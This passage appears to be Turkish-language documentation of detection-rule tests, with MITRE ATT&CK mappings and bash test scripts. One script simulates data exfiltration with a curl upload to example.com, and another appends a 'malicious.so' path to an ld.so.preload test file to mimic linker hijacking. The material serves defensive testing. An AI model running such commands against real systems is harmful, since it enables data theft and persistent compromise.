 
## 11. DT0560 - Exfiltrate Data via HTTPS Using curl Linux
**Test Definition Analizi:**
- curl ile veri sızdırma işlemlerini tespit eder
- `curl` komutu ile `maxDownloads=1` veya `autoDelete=true` parametrelerini arar

**MITRE ATT&CK Eşleştirmesi:**
- **Teknik:** T1048.003 - Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol
- **Teknik:** T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
- **Taktik:** Exfiltration

**Test Script:**
```bash
#!/bin/bash
# DT0560 Test Script
echo "[*] Testing DT0560 - Data exfiltration via curl"
echo "test data" > /tmp/exfil_test.txt
curl -X POST "https://example.com/upload?maxDownloads=1&autoDelete=true" -F "file=@/tmp/exfil_test.txt"
rm -f /tmp/exfil_test.txt
```

---

## 12. DT0559 - Full path of the library to add to ld.so.preload
**Test Definition Analizi:**
- LD_PRELOAD hijacking için `/etc/ld.so.preload` dosyasına yazma işlemlerini tespit eder
- `tee -a /etc/ld.so.preload` kullanımını kontrol eder

**MITRE ATT&CK Eşleştirmesi:**
- **Teknik:** T1574.006 - Hijack Execution Flow: Dynamic Linker Hijacking
- **Taktik:** Persistence, Privilege Escalation, Defense Evasion

**Test Script:**
```bash
#!/bin/bash
# DT0559 Test Script
echo "[*] Testing DT0559 - LD_PRELOAD manipulation"
echo "/tmp/malicious.so" | sudo tee -a /etc/ld.so.preload.test
rm -f /etc/ld.so.preload.test
```

---

## 13. DT0543 - Decode base64 Data into Script
**Test Definition Analizi:**
- Base64 encoded veriyi decode edip script dosyasına yazma işlemlerini tespit eder
- `base64 -d` ve `.sh` uzantısını kontrol eder

**MITRE ATT&CK Eşleştirmesi:**
- **Teknik:** T1140 - Deobfuscate/Decode Files or Information
- **Teknik:** T1027 - Obfuscated Files or Information
- **Taktik:** Defense Evasion
